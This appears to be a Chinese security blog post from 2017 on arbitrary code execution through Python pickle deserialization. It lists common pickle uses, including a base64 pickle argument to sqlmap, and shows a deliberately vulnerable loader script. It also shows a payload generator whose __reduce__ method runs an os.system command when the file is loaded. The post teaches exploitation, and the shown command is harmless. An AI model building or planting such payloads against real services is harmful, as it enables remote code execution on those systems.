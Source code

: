 Title: Python Pickle的任意代码执行漏洞实践和Payload构造
Date: 2017-03-22 10:20
Category: 漏洞实践
Tags: python, Pickle, 漏洞,反序列化
Slug: 
Authors: bit4
Summary: 

# 0x01 Pickle的典型应用场景 #

  一般在什么场景下需要用到Pickle？

1. 通常在解析认证token，session的时候。现在很多web都使用redis、mongodb、memcached等来存储session等状态信息。P神的文章就有一个很好的redis+python反序列化漏洞的很好例子：[https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)。
2. 可能将对象Pickle后存储成磁盘文件。
3. 可能将对象Pickle后在网络中传输。
4. 可能参数传递给程序，比如sqlmap的代码执行漏洞
   python sqlmap.py –pickled-options “Y29zCnN5c3RlbQooUydkaXInCnRSLg==”

# 0x02 如何构造Payload #

特别说明，以下测试代码均可在我的github上下载：

[https://github.com/bit4woo/code2sec.com/tree/master/code/PickleRCE]( https://github.com/bit4woo/code2sec.com/tree/master/code/PickleRCE)

**1.本地执行简单系统命令的Payload**

 首先构造一个简单的包含漏洞的代码。后续的验证过程中，将生成的Payload放到poc.pickle文件中，使用该代码来读取PoC验证效果（我将其保存为pickle_verify.py）。

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_verify.py'
  
  import pickle
  
  pickle.load(open('./poc.pickle'))
```

 值得注意的是，pickle有load和loads2个方法，load需要的参数是文件句柄，loads所需要的参数是字符串。

 pickle允许任意对象去定义一个reduce方法来申明怎么序列化这个对象。这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。

 使用os.system执行命令的payload，保存为`pickle_poc_gen.py`

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen.py'

  import cPickle
  import os
  import urllib

  class genpoc(object):
      def __reduce__(self):
          s = """echo test >poc.txt"""  #要执行的命令
          return os.system, (s,)        #os.system("echo test >poc.txt")

  e = genpoc()
  poc = cPickle.dumps(e)
```